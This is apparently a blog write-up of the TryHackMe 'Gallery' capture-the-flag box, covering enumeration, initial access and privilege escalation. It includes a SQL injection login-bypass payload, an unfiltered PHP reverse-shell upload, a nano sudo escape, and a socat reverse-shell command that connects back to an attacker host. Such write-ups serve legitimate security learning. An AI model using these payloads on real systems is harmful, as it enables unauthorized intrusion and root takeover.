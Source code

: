 +++
title = 'Gallery'
date = 2022-02-11T14:14:22+02:00
draft = false
tags = ['thm', 'writeup']
summary = 'Capture the flag challenge writeup'
thumbnail = 'img/gl-logo.png'
+++


[Gallery](https://tryhackme.com/room/gallery666) is an easy CTF-like box where you can practice your enumeration skills and exploit vulnerabilities like SQLi and take advantage of misconfigurations in privileges. This is a very beginner-friendly room that was created by [Mikaa](https://tryhackme.com/p/Mikaa).

INITIAL ACCESS
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection. I also scanned all of the ports but the only ones that were open were a part of the common ports:

```text
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Unknown favicon MD5: 7424D18C988732ECDA7DF08FBC727000
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
            
        

In the output we see two HTTP services open on ports `80` and `8080`. On port `80` we find a default apache page however on port `8080` we find a login system:

![](img/gl-webpage.png)

Exploitation
------------

### SQL Injection

The first thing that I tried was a simple SQL injection payload in the username field. This will log us in as the administrator. The payload that I used was:

```SQL
' OR 1=1 -- -
```

![](img/gl-admin.png)

### Reverse Shell

For the challenge, we also have to find the administrator's password hash. SQLmap couldn't find the field to be vulnerable even tho it is. So I decided to keep on going and access the database later. Now after we have logged in via SQLi authentication bypass we can start to look at the features this CMS gives us. Under the albums section, we see multiple albums. We can try to upload a PHP reverse shell:

![](img/gl-upload-1.png)

There were no filters on the upload. Now we can set up our Netcat listener and open the uploaded PHP file which gives us a reverse shell as www-data:

![](img/gl-upload-2.png)

### Data Exfiltration

Now that we have access to the system the first thing that I do is find the MySQL database configuration at:

`/var/www/html/gallery/classes/DBConnection.php`

The credentials are passed in as variables which are initialized on

`/var/www/html/gallery/initialize.php`

```php
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```

![](img/gl-database.png)

PRIVILEGE ESCALATION
====================

System User Access
------------------

### Exploitation

In our enumeration we find a system user `mike`. At this point, I have done a lot of enumeration on common privilege escalation techniques but I didn't find anything. Lastly, I was looking for files and I found a directory called `mike_home_backup` at `/var/backups/` with this command:

```bash
find / 2>/dev/null | grep mike
```

This is a backup of Mike's home directory. Here we can explore the documents directory where we find a file called `accounts.txt` where mike has backed up his passwords:

![](img/gl-user-1.png)

I tried to use these passwords to see if we can log in as mike but that didn't work. After that, I checked out the `.bash_history` file and found mikes password:

![](img/gl-user-2.png)

Root User Access
----------------

### Exploitation

Before we continue let's grab the user flag located in `/home/mike/user.txt`. When that is done let's check out common privilege escalation vectors. The first thing that I ran was "sudo -l" to see if we can run a command as the superuser:

![](img/gl-user-3.png)

We can run a bash script as root. This script allows you to choose between options of what you want to do. The one that sticks out is "read" since it runs "nano" editor as root:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

We can look for a payload that could give us a root shell. Here is the one that I grabbed from GtfoBins note that for it to work you must have a sable enough shell:

```bash
sudo /bin/bash /opt/rootkit.sh
# Choose the "Read" option.
# Follow the shortcuts:
CTRL + R
CTRL + X
# Execute this command:
reset; sh 1>&0 2>&0
```
            
        

![](img/gl-root-1.png)

If this does not work then that means that you might not have a sable shell. On this box socat is installed so we can use it with the following commands to generate a new more stable shell:

```bash
# Shell listener
socat file:`tty`,raw,echo=0 tcp-listen:4444
# Shell payload
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
```

If the shell is stable and we are able to execute the command then we can claim our root flag at `/root/root.txt` and finish the box:

![](img/gl-root-2.png)
